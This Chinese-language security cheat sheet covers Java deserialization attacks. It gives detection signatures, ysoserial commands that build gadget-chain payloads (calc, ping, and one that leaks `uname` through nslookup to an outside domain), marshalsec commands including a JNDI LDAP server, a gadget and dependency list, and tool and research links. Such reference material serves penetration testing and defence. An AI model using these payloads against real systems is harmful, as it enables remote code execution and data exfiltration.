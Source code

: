 # Java反序列化

## 检测

- 十六进制中的`"AC ED 00 05"`
  * `AC ED`：STREAM_MAGIC。指定这是一个序列化协议。
  * `00 05`：STREAM_VERSION。序列化版本。
- Base64中的`"rO0"`
- 内容类型="application/x-java-serialized-object"
- gzip(base64)中的`"H4sIAAAAAAAAAJ"`

## 工具

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : 一个用于生成利用不安全的Java对象反序列化的有效载荷的概念验证工具。

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**ysoserial中包含的有效载荷列表：**

```ps1
有效载荷             作者                                依赖项                                                                                                                                                                                        
-------             -------                                ------------                                                                                                                                                                                        
AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                                      
BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                         
Clojure             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
CommonsCollections1 @frohoff                               commons-collections:3.1                                                                                                                                                                             
CommonsCollections2 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
CommonsCollections3 @frohoff                               commons-collections:3.1                                                                                                                                                                             
CommonsCollections4 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
CommonsCollections6 @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
Groovy1             @frohoff                               groovy:2.3.9                                                                                                                                                                                        
Hibernate1          @mbechler                                                                                                                                                                                                                                  
Hibernate2          @mbechler                                                                                                                                                                                                                                  
JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
JRMPClient          @mbechler                                                                                                                                                                                                                                  
JRMPListener        @mbechler                                                                                                                                                                                                                                  
JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
Jdk7u21             @frohoff                                                                                                                                                                                                                                   
Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
MozillaRhino1       @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
MozillaRhino2       @_tint0                                js:1.7R2                                                                                                                                                                                            
Myfaces1            @mbechler                                                                                                                                                                                                                                  
Myfaces2            @mbechler                                                                                                                                                                                                                                  
ROME                @mbechler                              rome:1.0                                                                                                                                                                                            
Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
URLDNS              @gebl                                                                                                                                                                                                                                      
Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4   
```

### 使用ysoserial的Burp扩展

- [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller)
- [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)
- [Burp-ysoserial](https://github.com/summitt/burp-ysoserial)
- [SuperSerial](https://github.com/DirectDefense/SuperSerial)
- [SuperSerial-Active](https://github.com/DirectDefense/SuperSerial-Active)

### 替代工具

- [pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)
- [joaomatosf/JexBoss](https://github.com/joaomatosf/jexboss) - JBoss（及其他Java反序列化漏洞）验证和开发工具
- [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- [NickstaDB/SerialBrute](https://github.com/NickstaDB/SerialBrute) - Java序列化暴力破解攻击工具
- [NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper) - 以更易于阅读的格式转储Java序列化流的工具
- [bishopfox/gadgetprobe](https://labs.bishopfox.com/gadgetprobe)
- [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - 将您的数据转换为代码执行

```java
$ java -cp marshalsec.jar marshalsec<Marshaller> [-a] [-v] [-t]<gadget_type><arguments...>]]
$ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
$ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389

-a - 为该编组器生成/测试所有有效载荷
-t - 在测试模式下运行，在生成有效载荷后对其进行反序列化。
-v - 详细模式，例如在测试模式下也显示生成的有效载荷。
gadget_type - 特定小工具的标识符，如果省略，将显示该特定编组器的可用小工具。
arguments - 小工具特定的参数
```

包括以下编组器的有效载荷生成器：<br />

| 编组器                      | 小工具影响                                |
| --------------------------- | ----------------------------------------- |
| BlazeDSAMF(0&#124;3&#124;X) | 仅JDK升级到Java序列化<br/>各种第三方库RCE |
| Hessian&#124;Burlap         | 各种第三方RCE                             |
| Castor                      | 依赖库RCE                                 |
| Jackson                     | **可能的仅JDK RCE**，各种第三方RCE        |
| Java                        | 另一个第三方RCE                           |
| JsonIO                      | **仅JDK RCE**                             |
| JYAML                       | **仅JDK RCE**                             |
| Kryo                        | 第三方RCE                                 |
| KryoAltStrategy             | **仅JDK RCE**                             |
| Red5AMF(0&#124;3)           | **仅JDK RCE**                             |
| SnakeYAML                   | **仅JDK RCE**                             |
| XStream                     | **仅JDK RCE**                             |
| YAMLBeans                   | 第三方RCE                                 |



## Gadgets

需求：

* `java.io.Serializable`

## 参考资料

- [Github - ysoserial](https://github.com/frohoff/ysoserial)
- [使用Java反序列化触发DNS查找 - paranoidsoftware.com](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
- [通过DNS数据泄露检测反序列化漏洞 - Philippe Arteau | 2017年3月22日](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
- [Java反序列化备忘单 - GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
- [理解与练习Java反序列化利用 - diablohorn.com 2017年9月9日](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
- [我是如何找到一个价值1500美元的反序列化漏洞的 - @D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [配置错误的JSF视图状态可能导致严重的RCE漏洞 - 2017年8月14日，Peter Stöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Jackson CVE-2019-12384：一个漏洞类剖析](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [关于Jackson CVEs：不要惊慌 - 以下是您需要知道的](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [ForgeRock OpenAM中的预认证RCE（CVE-2021-35464）- Michael Stepankin / @artsploit - 2021年6月29日](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)
